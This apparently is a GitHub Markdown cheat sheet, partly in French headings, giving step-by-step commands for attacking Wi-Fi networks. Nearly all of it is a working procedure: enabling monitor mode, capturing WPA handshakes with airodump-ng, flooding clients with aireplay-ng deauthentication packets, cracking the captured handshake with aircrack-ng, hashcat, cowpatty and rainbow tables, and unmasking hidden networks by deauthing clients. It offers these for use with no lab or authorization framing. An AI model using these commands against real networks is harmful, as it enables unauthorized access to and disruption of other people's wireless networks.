 # FootPrinting

## Tables des matière
 - [Enabling Monitor mode on your network card](#Enabling-Monitor-mode-on-your-network-card)
 - [Capturing handshake with airodump](#Capturing-handshake-with-airodump)
 - [Cracking with Aircrack (CPU power)](#Cracking-with-Aircrack-(CPU-power))
 - [Cracking with Hashcat (GPU power)](#Cracking-with-Hashcat-(GPU-power))
 - [Cracking with cowpatty](#Cracking-with-cowpatty)
 - [Creating wordlists](#Creating-wordlists)
 - [Rainbow table](#Rainbow-table)
 - [Fluxion](#Fluxion)
 - [Wifite](#Wifite)
 - [Finding and cracking hidden network](#Finding-and-cracking-hidden-network)
 
 

### Enabling Monitor mode on your network card
	
Check your mode tiping `iwconfig`. Put your network card down. Type `airmon-ng check <network_card_name>`. Type `airmon-ng check kill <network_card_name>`. 

Type `iwconfig <network_card_name> mode monitor`. Put your network card up.
	 
### Capturing handshake with airodump

List all of the netwworks around you : `airodump-ng <network_card_name>`

List all of the devices connected to a network : `airodump-ng -c <network_channel> --bssid <network_bssid> -w <name_file_you_want_to_create> <network_card_name>`

In the same time you perform this command, type in another terminal : `aireplay-ng -0 0 -a <bssid> <network_card_name>`

Press `^C` and all the devices will be reconnected to the access point and you see in the terminal which you run the airodump command that the WPA handshake have been found.

4 files have been created and you can open the .cap in wireshark. You can filtered by `eapol` in order to see the packets link to the reconnection.
	
### Cracking with Aircrack (CPU power) 

You can brute-forcing th password by tiping : `aircrack-ng -w <wordlist> <file.cap>`

### Cracking with Hashcat (GPU power)

In order to crack with Hashcat you must convert the .cap to a hashcat capture file --> `https://hashcat.net/cap2hccapx/`

Cracking command : `hashcat -a <perform_level(2?)> -m <hashtype(2500?for_the_wpa2)> <file.hccapx> <wordlist>`

### Cracking with cowpatty

`cowpatty -f <wordlist> -r <file.pcap> -s <name_access_point>`

### Creating wordlists

**crunch** - very useful, generate wordlist with (characters/words) in relation to the entries you made

**cupp** (github) - generate worlds with (characters/words) in relation to the answers of their questions

### Rainbow table 

These are useful for brute-force a hash code.

In order to generate a rainbow table --> `rtgen` --> see help for your use.

A .rt file is created. Don't forget to sort the rainbow table : `rsort`

You can retrieve a word by its hash hash -->` rcrack . -h <hash>` 

--> For WPA-WPA2 carcking :
	
	-create file with the name of the essid of your access point (SFR_0F30?)

  	-airolib-ng <rainbow_table_name> --import essid <essid_name_file>
  
  	-airolib-ng <rainbow_table_name> --import passwd <wordlist>
		
  	-airolib-ng <rainbow_table_name> --clean all
		
  	-airolib-ng <rainbow_table_name> --batch

  	-airolib-ng <rainbow_table_name> --verify all
		
 	-aircrack-ng -r <rainbow_table_name> <file.cap>
	
### Fluxion

Tool that automate all the steps.

### Wifite

Tool that automate all the steps and more <-- very very useful

Finding and cracking hidden network :
	
List all of the netwworks around you : `airodump-ng <network_card_name>`

If you see an access point without name but with `<length: 0>`, it is a hidden network 
	
List all of the devices connected to a network : `airodump-ng  --bssid <network_bssid> --channel <channel_network> <network_card_name>`
	
In the same time you perform this command, type in another terminal : `aireplay-ng --deauth <number_of_deauthtificated_packets> -a <bssid> -c <station(mac_adress_of_the_client)> <network_card_name>`
	
The essid appears in the terminal you run the airodump command and you can connect to the hidden network
